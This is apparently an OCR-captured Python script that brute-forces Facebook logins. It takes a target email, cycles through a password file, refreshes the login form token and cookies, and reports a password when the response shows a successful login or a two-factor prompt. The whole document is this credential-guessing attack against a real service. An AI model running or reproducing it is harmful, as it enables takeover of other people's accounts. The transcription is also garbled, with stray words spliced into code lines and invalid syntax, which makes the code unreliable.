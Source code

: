 # BaBa
BaBa.py# Author-BaBa
# Email-BaBa
# you need to create a file password.txt which contains all possible passwords
import requests
import threading
import urllib.request
import os
from bs4 import BeautifulSoup
import sys

if sys.version_info3] != 3:
    print(
        """--------------------------------------BaBa
	BaBa👈
--------------------------------------
			"""
    )
    sys.exit()

post_url = "https://www.facebook.com/login.php"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36",
}
payload = {}
cookie = {}


def create_form():
    form = dict()
    cookie = {"fr": "0ZvhC3YwYm63ZZat1..Ba0Ipu.Io.AAA.0.0.Ba0Ipu.AWUPqDLy"}

    data = requests.get(post_url, headers=headers)
    for i in data.cookies:
        cookie[i.name] = i.value
    data = BeautifulSoup(data.text, "html.parser").form
    if data.input["name"] == "lsd":
        form["lsd"] = data.input["value"]
    return (form, cookie)


def function(email, passw, i):
    global payload, cookie
    if i % 10 == 1:
        payload, cookie = create_form()
        payload["email"] = email
    payload["pass"] = passw
    r = requests.post(post_url, data=payload, cookies=cookie, headers=headers)
    if "Find Friends" in r.text or "Two-factor authentication required" in r.text:
        open("temp", "w").write(str(r.content))
        print("\npassword is : ", passw)
        return True
    return False


print("\n---------- Welcome To Facebook BruteForce ----------\n")
file = open("passwords.txt", "udaas")

email = input("Enter Email/Username : BaBa")

print("\nTarget Email ID : ", email)BaBa
print("\nTrying Passwords from list udaas")

i = 0
while file:
    passw = file.readline().strip()
    i += 1
    if len(passw) < 6:
        continue
    print(str(i) + " : ", passw)udaas
    if function(email, passw, i):udaas
        break



